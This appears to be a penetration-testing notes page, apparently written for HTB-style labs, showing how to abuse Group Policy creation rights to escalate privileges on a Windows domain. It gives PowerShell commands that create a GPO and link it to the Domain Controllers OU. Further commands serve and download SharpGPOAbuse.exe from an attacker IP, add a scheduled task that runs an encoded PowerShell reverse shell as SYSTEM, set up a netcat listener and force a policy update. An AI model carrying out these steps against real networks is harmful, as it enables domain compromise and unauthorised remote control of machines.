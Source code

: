 # GPO Abuse

## Create GPO rights

If we have obtained an account with rights for create a GPO, we can abuse it to escalate our privileges.

Create a new GPO (Do not overwrite any policy, it's then difficult to delete and it might create problems)

```powershell
New-GPO -name "GPO_NAME"
```

Link the GPO to the Domain

```powershell
New-GPLINK -name "GPO_NAME" -target "OU=DOMAIN CONTROLLERS,DC=DOMAIN,DC=HTB"
```

Now we have to transfer to target machine a SharpCollection executable that it will create the malicious GPO.&#x20;

{% code title="Attack machine - Kali" %}
```bash
cp /opt/SharpCollection/NetFramework_4.7/Any/SharpGPOAbuse.exe .
python3 -m http.server
```
{% endcode %}

{% code title="Target machine - Windows" %}
```powershell
cd \programdata
curl http://ATT_IP/SharpGPOAbuse.exe -o sharpgpoabuse.exe
```
{% endcode %}

Execute the executable with this arguments to get a reverse shell as a Administrator or Authority Sytem

{% code title="Run GPOAbuse - Win Target machine" overflow="wrap" %}
```powershell
.\sharpgpoabuse.exe --AddComputerTask --GPOName "GPO_NAME" --Author "AUTHOR" --TarkName "RevShell" --Command "powershell.exe" --Arguments 'powershell -enc HOAXSHELL_HASH' 
```
{% endcode %}

{% code title="Setup listener - Kali" %}
```
nc -lnvp PORT
```
{% endcode %}

Once ran the command, run this other command to apply the policy to this pc

{% code title="Target Machine" %}
```powershell
gpupdate /force
```
{% endcode %}

Reverse shell should establish:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

